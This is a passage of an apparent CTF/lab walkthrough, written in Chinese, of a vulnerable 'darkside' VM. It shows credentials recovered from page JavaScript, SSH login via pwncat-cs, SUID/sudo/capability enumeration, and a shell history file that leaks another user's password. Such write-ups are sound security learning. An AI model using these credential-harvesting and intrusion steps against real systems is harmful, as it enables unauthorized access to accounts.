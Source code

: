 分析网页源码，即可解析其中的 Javascript 逻辑

最后可以得到这份信息

```plaintext title="http://192.168.56.107/sfqekmgncutjhbypvxda.onion/hwvhysntovtanj.password"
kevin:ILoveCalisthenics
```

## User - kevin

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs kevin@192.168.56.107
[16:42:59] Welcome to pwncat 🐈!
Password: *****************
[16:43:02] 192.168.56.107:22: normalizing shell path
[16:43:03] 192.168.56.107:22: registered new host w/ db
(local) pwncat$ back
(remote) kevin@darkside:/home/kevin$ whoami
kevin
```

### flag - user

```shell
(remote) kevin@darkside:/home/kevin$ cat user.txt
UnbelievableHumble
```

### 提权探测

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/sudo
```

```plaintext title="sudo -l"
Sorry, user kevin may not run sudo on darkside.
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping cap_net_raw=ep
```

### 读取命令行历史

```shell title="/home/kevin/.history"
ls -al
hostname -I
echo "Congratulations on the OSCP Xerosec"
top
ps -faux
su rijaba
ILoveJabita
ls /home/rijaba
```
